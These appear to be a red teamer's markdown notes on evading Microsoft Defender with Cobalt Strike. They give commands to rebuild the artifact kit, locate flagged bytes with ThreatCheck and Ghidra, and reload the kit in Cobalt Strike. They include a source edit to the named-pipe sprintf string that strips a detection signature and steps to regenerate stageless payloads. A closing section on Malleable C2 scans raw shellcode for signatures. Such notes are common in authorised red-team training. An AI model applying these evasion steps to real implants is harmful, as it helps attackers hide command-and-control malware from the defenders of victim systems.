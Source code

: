 # Microsoft Defender Antirus Notes

**Artifact Kit**

Tools:
[ThreatCheck](https://github.com/rasta-mouse/ThreatCheck)
[IDA](https://hex-rays.com/)
[Ghidra](https://github.com/NationalSecurityAgency/ghidra)

we build the artifact kit
```
./build.sh VirtualAlloc 310272 5 false false none /mnt/c/Tools/cobaltStrike/artifacts
```

can validate these with threatcheck
```
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Tools\cobaltstrike\artifacts\pipe\artifact64svcbig.exe
```

to dig into issues
run ghidra 
```
C:\Tools\ghidra-10.3.1\ghidraRun.bat
```

load the file we ran with threatcheck and look for the byte sequence in ghidra by going to *Search>Memory* and *Search All*

or check bad bytes from threatcheck by going to *Select Navigation> Go To* entering the file(<badBytes>)

make a bunch of changes from what's found

sprintf issue:
```
sprintf(pipename, "%c%c%c%c%c%c%c%c%cnetsvc\\%d", 92, 92, 46, 92, 112, 105, 112, 101, 92, (int)(GetTickCount() % 9898));
```
to
```
sprintf(pipename, "%c%c%c%c%c%c%c%c%crasta\\mouse", 92, 92, 46, 92, 112, 105, 112, 101, 92);
```

to load new artifact kit go to *Cobalt Strike>Script manager>Load* and load the *artifactkit.cna* file

to reload all new payloads to use this kit, *Payloads>Windows Stageless Generate All Payloads*

**Malleable C2**

Scanning the shellcode payload type with ThreatCheck can be a good way to help find these signatures because although the service binary artifact itself is "clean"
The raw shellcode is not
```
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f .\http_x64.xprocess.bin
```
